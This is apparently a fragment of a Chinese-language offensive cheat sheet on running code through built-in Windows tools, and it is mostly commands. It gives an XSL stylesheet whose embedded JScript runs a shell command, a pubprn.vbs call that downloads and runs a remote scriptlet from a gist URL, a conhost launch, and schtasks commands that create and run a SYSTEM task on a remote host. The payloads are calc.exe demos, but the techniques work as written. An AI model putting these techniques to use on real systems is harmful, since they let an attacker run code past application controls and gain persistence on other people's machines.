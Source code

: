 demo.xml
```xml
<?xml version="1.0"?>
<?xml-stylesheet type="text/xsl" href="exec.xsl" ?>
<customers>
<customer>
<name>Microsoft</name>
</customer>
</customers>
```

exec.xsl
```xml
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">

<msxsl:script language="JScript" implements-prefix="user">
   function xml(nodelist) {
var r = new ActiveXObject("WScript.Shell").Run("cmd /c calc.exe");
   return nodelist.nextNode().xml;

   }
</msxsl:script>
<xsl:template match="/">
   <xsl:value-of select="user:xml(.)"/>
</xsl:template>
</xsl:stylesheet>
```

## pubprn.vbs

在 Windows 7 以上版本存在一个名为 PubPrn.vbs 的微软已签名 WSH 脚本，其位于`C:\Windows\System32\Printing_Admin_Scripts\en-US`，仔细观察该脚本可以发现其显然是由用户提供输入（通过命令行参数），之后再将参数传递给 GetObject()

```bash
"C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs" 127.0.0.1 script:https://gist.githubusercontent.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a/raw/a006a47e4075785016a62f7e5170ef36f5247cdb/test.sct
```

## conhost

```bash
conhost calc.exe
```

## schtasks

```bash
schtasks /create /tn foobar /tr c:\windows\temp\foobar.exe
/sc once /st 00:00 /S host /RU System schtasks /run /tn foobar /S host
schtasks /F /delete /tn foobar /S host                          # 清除 schtasks
```
